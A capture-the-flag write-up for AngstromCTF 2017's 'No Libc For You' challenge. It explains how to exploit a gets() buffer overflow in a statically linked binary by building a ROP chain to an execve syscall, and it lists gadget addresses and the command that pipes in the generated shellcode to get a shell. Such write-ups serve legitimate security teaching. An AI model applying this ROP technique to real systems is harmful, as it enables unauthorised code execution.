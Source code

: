 # AngstromCTF 2017 - Binary 150 - No Libc For You

## Message
Even ASLR and NX can't seem to stop you from exploiting all these buffer overflows. Rather than remove the buffer overflows, we decided to use static linking so you can't access libc anymore! Can you get the flag with no system() to help you out? Go ahead and give it a try on the shell server.

## Writeup
We are given a statically linked, 64-bit ELF binary and source-code. Looking at the source, it is a straight forward buffer-overflow in gets(). The problem is that we don't have system() or the string /bin/sh in our binary, so we have to use other ROP techniques to exploit the binary.

### Solution
  Lucky we have access to ROP gadgets in __libc_csu_init(). We are going to have everything that we need for a complete ROP chain.

Write-what-where gadgets
0x4734e1 mov qword ptr [rsi], rax ; ret
0x4015e7 pop rsi ; ret
0x477a36 pop rax ; pop rdx ; pop rbx ; ret
0x42550f xor rax, rax ; ret

Init syscall number gadgets
0x42550f xor rax, rax ; ret
0x465b90 add rax, 1 ; ret
0x465b91 add eax, 1 ; ret

Init syscall argument gadgets
0x4014c6 pop rdi ; ret
0x4015e7 pop rsi ; ret
0x441d06 pop rdx ; ret

Syscall gadget
0x4666d5 syscall ; ret

Using these gadgets I generated my payload via ![exploit.py](exploit.py) which writes the shellcode to the file
![shellcode](shellcode)

Then the exploit is run.

(cat shellcode ; cat) | ./nolibc4u

We get our shell!!!

 
